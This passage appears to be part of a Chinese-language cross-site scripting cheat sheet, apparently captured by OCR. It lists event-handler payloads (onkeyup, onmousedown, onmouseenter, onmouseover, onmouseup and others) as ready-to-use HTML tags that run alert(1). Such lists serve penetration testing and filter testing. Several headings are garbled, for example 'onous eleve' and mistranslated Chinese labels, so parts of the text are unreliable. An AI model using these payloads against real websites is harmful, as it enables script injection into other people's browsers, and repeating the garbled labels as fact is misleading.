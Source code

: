 #### **onkeyup**

当释放一个键时触发

```
<xss onkeyup="alert(1)" contenteditable style=display:block>test</xss>
```

#### onmousedown

按下鼠标时触发

```
<xss onmousedown="alert(1)" style=display:block>test</xss>
```

#### **是鼠标输入**

当鼠标悬停在元素上时触发

```
<xss onmouseenter="alert(1)" style=display:block>test</xss>
```

#### **onous eleve**

当鼠标离开元素时触发

```
<xss onmouseleave="alert(1)" style=display:block>test</xss>
```

#### **onmousemove**

需要鼠标移动

```
<xss onmousemove="alert(1)" style=display:block>test</xss>
```

#### onmouseout

当鼠标离开元素时触发

```
<xss onmouseout="alert(1)" style=display:block>test</xss>
```

#### **onmouseover**

需要将鼠标悬停在元素上

```
<xss onmouseover="alert(1)" style=display:block>test</xss>
```

#### **是 mouseup** 的缩写

释放鼠标按钮时触发

```
<xss onmouseup="alert(1)" style=display:block>test</xss>
```
